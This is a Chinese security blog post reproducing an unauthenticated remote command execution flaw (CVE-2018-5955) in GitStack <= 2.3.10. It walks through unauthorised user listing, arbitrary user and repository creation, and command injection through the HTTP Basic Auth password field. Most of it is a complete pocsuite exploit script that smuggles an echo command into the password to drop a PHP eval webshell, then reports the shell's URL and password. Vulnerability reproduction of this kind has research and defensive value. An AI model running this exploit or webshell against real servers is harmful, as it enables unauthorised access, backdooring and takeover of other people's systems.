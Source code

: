 ```yaml
---
layout: post
title:  "GitStack <= 2.3.10 非授权访问命令执行（文件上传）漏洞（CVE-2018-5955）"
date:   2019-8-3 10:30:43
categories: Development
author: co0ontty
categories: 安全开发 漏洞复现 ALL
tags: 安全开发 漏洞复现 ALL
describe: GitStack <= 2.3.10 非授权访问命令执行（文件上传）漏洞
cover: '/assets/img/posts/0d543f9aec58561aabc164648a1809d8.png'
---
```


## GitStack <= 2.3.10 非授权访问命令执行（文件上传）漏洞

### 漏洞概述：

该漏洞时基于多个小漏洞实现的，大体过程如下：  

#### 用户相关 rest_user：

1.使用 GET 方式可以直接查看 GitStack 仓库的用户列表，存在未授权访问信息泄露漏洞   
直接访问http://ip/rest/user 即可获取gitstack库中的所有用户  

2.通过 POST 方法，指定 username 和 password 可以直接添加仓库用户，存在任意用户添加漏洞  

```
URL：http://ip/rest/user/
POST：username=test_username&password=test_passwd
```

#### project相关：

1.通过 POST 一个带有 CSRF_TOKEN的name 值即可创建一个以 name 值命名的project![创建project](../assets/img/posts/gitstack-1.png)

CSRF_TOKEN 存在于 http://ip/registration/login/?next=/gitstack/ 的源码中

![nihao](../assets/img/posts/gitstack-2.png)

2.任意 project 添加 user

只需要向 http://ip/rest/repository/ 传递 new__project 和 new_username 的值即可在名为 new_project 的项目中创建名为 new_username 的用户 

```bash
POST http://ip/rest/repository/new_projectname/user/new_username/
```

![任意 project 添加 user](../assets/img/posts/gitstack-3.png)

#### 命令执行（文件上传）：

通过 HTTP Basic Authentication 认证过程中的漏洞，发送如下请求即可实现命令执行，以上传文件为例子

```python
requests.get('http://{}/web/index.php?p={}.git&a=summary'.format(ip, repository), auth=HTTPBasicAuth(username, 'p && echo "<?php system($_POST['a']); ?>" > c:GitStackgitphpexploit.php'))
```

## EXP

该 EXP 使用 pocsuite 框架格式编写 

```python
#!/usr/bin/python2.7
# -*- coding: utf-8 -*-
from pocsuite.api.poc import register,Output, POCBase
from requests.auth import HTTPBasicAuth
import requests,urlparse,random,os,sys,hashlib,string


class TestPOC(POCBase):
    vulID = 'N/A'
    version = 'GitStack <= 2.3.10'
    author = 'co0ontty'
    vulDate = '2019-7-11'
    createDate = '2019-7-16'
    updateDate = '2018-3-31'
    references = ['https://xz.aliyun.com/t/2235']
    name = 'GitStack <= 2.3.10 远程命令执行漏洞分析'
    appPowerLink = 'https://gitstack.com'
    appName = 'GitStack'
    appVersion = 'GitStack <= 2.3.10'
    vulType = '文件上传'
    desc = '''
    该漏洞利用GitStack正常使用过程中调用的接口的未授权访问漏洞，越权读取、创建、修改用户列表、仓库。通过进一步利用实现恶意文件的上传。
    '''
    samples = []
    install_requires = []

    def _attack(self):
        result = {}
        target = self.url
        hostname = urlparse.urlparse(target).hostname
        port = urlparse.urlparse(target).port
        if port is None:
            target = target+":80"
        repository = ''.join(random.sample(string.digits+string.ascii_letters,4))
        username = ''.join(random.sample(string.digits+string.ascii_letters,4))
        password = ''.join(random.sample(string.digits+string.ascii_letters,4))
        csrf_token = ''.join(random.sample(string.digits+string.ascii_letters,4))
        user_list = []
        r_getuser = requests.get("{}/rest/user/".format(target))
        try:
            user_list = r_getuser.json()
            user_list.remove('everyone')
        except:
            pass
        if len(user_list) > 0:
            username = user_list[0]
        else:
            r_create_user = requests.post("{}/rest/user/".format(target),data={'username' : username, 'password' : password})
        r_getrepo = requests.get("{}/rest/repository/".format(target))
        repository_list = r_getrepo.json()
        if len(repository_list) > 0:
            repository = repository_list[0]['name']
        r_post_csrftoken = requests.post("{}/rest/repository/".format(target), cookies={'csrftoken' : csrf_token}, data={'name' : repository, 'csrfmiddlewaretoken' : csrf_token})
        r_create_user = requests.post("{}/rest/repository/{}/user/{}/".format(target, repository, username))
        r_del_user = requests.delete("{}/rest/repository/{}/user/{}/".format(target, repository, "everyone"))
        random_file_name = ''.join(random.sample(string.ascii_letters+string.digits,16))+".php"
        random_identify_code = ''.join(random.sample(string.ascii_letters+string.digits,35))
        random_shell_pass = ''.join(random.sample(string.ascii_letters+string.digits,5))
        webshell = 'p && echo " <?php @eval($_POST['+random_shell_pass+']);echo"'+random_identify_code+'";?>" > c:'
        r_create_file = requests.get('{}/web/index.php?p={}.git&a=summary'.format(target, repository), auth=HTTPBasicAuth(username, "{}".format(webshell)+random_file_name))
        test_url = target+"/web/"+random_file_name
        r_attack = requests.get(test_url)
        if (r_attack.status_code == 200):
            if (random_identify_code in r_attack.text):
                result['VerifyInfo'] = {}
                result['VerifyInfo']['URL'] = self.url
                result['VerifyInfo']['ShellPath'] = test_url
                result['VerifyInfo']['ShellPasswd'] = random_shell_pass
            pass
        return self.parse_output(result)

    _verify = _attack

    def parse_output(self, result):
        output = Output(self)
        if result:
            output.success(result)
        else:
            output.fail('Internet nothing returned')
        return output


register(TestPOC)

```
